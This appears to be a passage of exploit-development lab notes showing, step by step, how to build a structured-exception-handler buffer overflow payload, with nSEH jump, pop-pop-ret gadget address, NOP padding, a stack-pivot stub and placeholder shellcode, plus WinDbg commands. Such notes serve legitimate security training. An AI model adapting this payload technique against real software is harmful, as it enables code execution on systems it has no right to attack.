 ##### Check Space for Shellcode

```bash
# Edit payload
inputBuffer = b'\x41' * offset
inputBuffer += pack("<L", (0x06eb9090)) # nSEH 0x06eb9090 (9090 because \x90 is a  filler byte!)
inputBuffer += pack("<L", (0x1015a2f0)) # SEH 0x1015a2f0 - pop eax; pop ebx; ret
inputBuffer += b'\x43' * (size - len(inputBuffer))

windbg> dd eip L30
# check the "?????" for space

# Edit payload
shellcode = b"\x43" * 400

inputBuffer = b"\x41" * 124
inputBuffer+= pack("<L", (0x06eb9090)) # nSEH 0x06eb9090 (9090 because \x90 is a  filler byte!)
inputBuffer+= pack("<L", (0x1015a2f0)) # SEH 0x1015a2f0 - pop eax; pop ebx; ret
inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
inputBuffer+= shellcode

windbg> !teb
StackBase: 01af0000
StackLimit: 01aee000

# Find the address our fake shellcode!
windbg> s -b 01aee000 -1af0000 90 90 90 90 43 43 43 43 43 43 43 43
01aefc70 ...

# Calculate offset from ESP to fake shellcode
windbg> ? 01aefc70+4 - @esp
Evaluate expression: 2096 = 00000830
```

##### Increase Stack Pointer Space for Shellcode

```bash
# Increase stack pointer by 0x830 bytes followed by jmp esp to shellcode
kali$ msf-nasm_shell
nasm> add sp, 0x830
00000000 6681C43008 add sp, 0x830
nasm > jmp esp
00000000 FFE4 jmp esp

# Edit payload
shellcode = b"\x90" * 8
shellcode+= b"\x43" * (400 - len(shellcode))
inputBuffer = b"\x41" * 124
inputBuffer+= pack("<L", (0x06eb9090)) # (NSEH)
inputBuffer+= pack("<L", (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
inputBuffer+= b"\x90" * 2
inputBuffer+= b"\x66\x81\xc4\x30\x08" # add sp, 0x830
inputBuffer+= b"\xff\xe4" # jmp esp to redirect execution to shellcode
inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
inputBuffer+= shellcode

# Check windbg and single step through for the PPR and NOP instructions
windbg> t # should be pop ebx return
windbg> t # should be pop ebx return
windbg> t # should be ret return
windbg> t # should be nop return
windbg> t # should be nop return
windbg> t # should be jmp return
windbg> t # should be add sp.830h return
windbg> dd @esp L4
```